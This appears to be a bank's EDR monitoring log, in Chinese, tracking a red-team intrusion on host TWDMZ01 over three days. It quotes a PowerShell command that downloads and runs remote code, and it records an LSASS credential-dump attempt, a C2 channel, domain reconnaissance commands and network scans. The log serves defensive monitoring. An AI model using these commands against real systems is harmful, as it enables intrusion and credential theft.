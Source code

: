 **銀行監控記錄**
7/7
```tree
13:55 ~ 13:56 hostname:TWDMZ01, EDR偵測4筆高風險事件
- 自建立的C2下載並執行 'wolf-husky'工具or腳本
- 'powershell -nop -exec bypass -EncodedCommand IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:46656/'); wolf-husky'
- 嘗試存取lsass，嘗試dump憑證
14:46 ~ 14:50 hostname:TWDMZ01, EDR偵測24筆高風險事件
- 與CHT站台:www.ytbk.dev(104.21.41.181) 通道持續建立 via beachhead.exe
```

**銀行監控記錄**
7/8 
```tree
13:10 ~ 14:02 hostname:TWDMZ01, EDR偵測21筆高風險事件
- 觀測到對本行網域DC, SRV偵查行為
	- 'C:\Windows\system32\cmd.exe /C nslookup -type=SRV _ldap._tcp.dc._msdcs.yuantabank.com.t'
- 疑似利用`rundll32.exe`作為載體注入惡意DLL
- 觀測到對本行 DC執行10.75.205.230  RPC端口服務探測(/nice/ports/Trinity.txt.bak via nmap)
14:08 ~ 14:33 hostname:TWDMZ01, EDR偵測21筆高風險事件
- 觀測到假定突破口本機端的資料偵搜行為
	- C:\Windows\system32\cmd.exe /C echo %logonserver%
	- C:\Windows\system32\cmd.exe /C net user /domain
- 觀測到持續對場域內DC服務的探測行為(銀行、金控) port: 389, 636...
- 觀測到疑似利用"snafflerout" AD滲透爬蟲工具的資料輸出軌跡
	- snafflerout_CHTRedteam_0708.txt via rundll32.exe
15:00 ~ 15:03 hostname:TWDMZ01, EDR偵測10筆高風險事件
- 觀測到網段掃描行為(subnet: 10.75.12.0/24 ing, key port: 80, 443, 445) via rundll32.exe
16:38 ~ 16:40 hostname:TWDMZ01, EDR偵測4筆高風險事件
- 觀測到網段掃描行為(subnet: 10.75.242.0/24, key port: 80, 445) via rundll32.exe
16:52 ~ 17:03 hostname:TWDMZ01, EDR偵測11筆高風險事件
- 觀測到疑似取得本地端ma03帳號權限，觀察到主機本地端權限限制文件讀寫紀錄
```

觀測到假定突破口本機端的資料偵搜行為
C:\Windows\system32\cmd.exe /C echo %logonserver%
C:\Windows\system32\cmd.exe /C net user /domain
觀測到持續對場域內DC服務的探測行為(銀行、金控) port: 389, 636...
觀測到疑似利用"snafflerout" AD滲透爬蟲工具的資料輸出軌跡snafflerout_CHTRedteam_0708.txt via rundll32.exe
觀測到網段掃描行為(subnet: 10.75.12.0/24 ing, key port: 80, 443, 445) via rundll32.exe

16:52 ~ 17:03 hostname:TWDMZ01, EDR偵測11筆高風險事件
觀測到疑似取得本地端ma03帳號權限，觀察到主機本地端權限限制文件讀寫紀錄
觀測到嘗試偵搜具讀寫權限目錄及指標文件軌跡


pc - x -> hopper --> hvd

pc --> hopper --> hvd

7/9 --> Red team responded, saying MA03 password was changed.

**銀行監控記錄**
7/9
```tree
09:51 ~ 09:58 hostname:TWDMZ01, EDR偵測8筆高風險事件
- 與CHT站台:www.ytbk.dev(104.21.41.181) 通道建立 via beachhead.exe
- 觀測到對場域內DC服務的探測行為(DC02), key ports: 389, 636
09:57 ~ 11:39 hostname:TWDMZ01
- 觀測到網段掃描行為(subnet: 10.75.242.0/24, 10.75.215.0/24; key port: 53, 80, 88, ,443, 445, 636) via rundll32.exe
11:25 hostname:TWDMZ01, EDR偵測4筆高風險事件
- 觀測到對場域內DC服務的嘗試探測行為(金控) ports: 389, 636 via rundll32.exe
11:45 hostname:TWDMZ01, EDR偵測1筆高風險事件
- 觀測到網段掃描行為(subnet: 10.75.242.0/24, key port:445 ) via rundll32.exe
11:45 ~ 13:30 hostname:TWDMZ01
- 觀測到對場域內DC服務的探測行為(DC03), key ports: 53, 80, 88, 135, 443, 445, 636 via rundll32.exe
```